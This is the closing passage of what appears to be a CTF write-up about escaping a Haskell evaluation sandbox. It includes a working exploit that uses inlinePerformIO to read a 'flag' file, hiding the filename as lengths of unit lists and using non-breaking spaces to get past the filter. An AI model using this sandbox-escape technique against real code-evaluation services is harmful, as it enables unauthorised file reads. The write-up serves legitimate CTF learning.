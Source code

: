 Boring stuff again (read the hint docs yada yada nothing interesting):

~~~ haskell
  res <- runInterpreter $ do
    loadModules [codeFile]
    setTopLevelModules ["Main"]
    setImportsQ [("Prelude", Nothing)]
    interpret "answer" (as :: String)
  case res of
    Left  err -> putStrLn $ "Interpretation error: " ++ show err
    Right ans -> putStrLn $ "answer = " ++ ans
~~~

# A working exploit

All spaces are non-breaking spaces. The lists of `()`s have lengths
`[102, 108, 97, 103]`, which correspond to ASCII codes of “f”, “l”, “a”, “g”.

<style> code {white-space: pre-wrap;} </style>

~~~ haskell
import Data.ByteString.Internal

answer = inlinePerformIO $ readFile $ map toEnum $ map length [[(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),()],[(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),()],[(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),()],[(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),(),()]]
~~~

# Aftermath

Well, it could've been a more interesting task, that's for sure. No tricky
math, no clever combinations leading to unexpected results, just “find this
undocumented function” + “read Haskell report to learn about this behavior” +
“look closely at this regex”. I wonder whether I myself would've enjoyed
solving it...

Oh, and also, I never got paid my 150$.

[`Data.Data`]: http://hackage.haskell.org/package/base/docs/Data-Data.html
[`Data.Typeable`]: http://hackage.haskell.org/package/base/docs/Data-Typeable.html
[`Data.List`]: http://hackage.haskell.org/package/base/docs/Data-List.html
[`Data.Char`]: http://hackage.haskell.org/package/base/docs/Data-Char.html
[`isSpace`]: http://hackage.haskell.org/package/base/docs/Data-Char.html#v:isSpace
[`toEnum`]: http://hackage.haskell.org/package/base/docs/Prelude.html#v:toEnum
[`unsafePerformIO`]: http://hackage.haskell.org/package/base/docs/System-IO-Unsafe.html#v:unsafePerformIO
[`unsafeDupablePerformIO`]: http://hackage.haskell.org/package/base/docs/System-IO-Unsafe.html#v:unsafeDupablePerformIO
[`inlinePerformIO`]: http://hackage.haskell.org/package/text-1.1.1.3/docs/Data-Text-Unsafe.html#v:inlinePerformIO
[`Data.ByteString.Internal`]: http://hackage.haskell.org/package/bytestring-0.10.4.0/docs/Data-ByteString-Internal.html
[`coerce`]: http://hackage.haskell.org/package/base/docs/Data-Coerce.html#v:coerce


[oDesk]: https://www.odesk.com/jobs/Haskell-programmer-required-develop-sandbox_~0169dd7db924c8f0c5
[CTF]: http://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[pyjail]: http://nullify-ctf.blogspot.com.au/2014/01/phd-ctf-quals-2014-yet-another-pyjail.html
[GH mueval]: https://github.com/gwern/mueval
[CD Data Typeable]: http://chrisdone.com/posts/data-typeable
[IO Inside]: http://www.haskell.org/haskellwiki/IO_inside#inlinePerformIO
[TIOBE top]: http://www.tiobe.com/index.php/content/paperinfo/tpci/index.html
[HW regex posix]: http://www.haskell.org/haskellwiki/Regex_Posix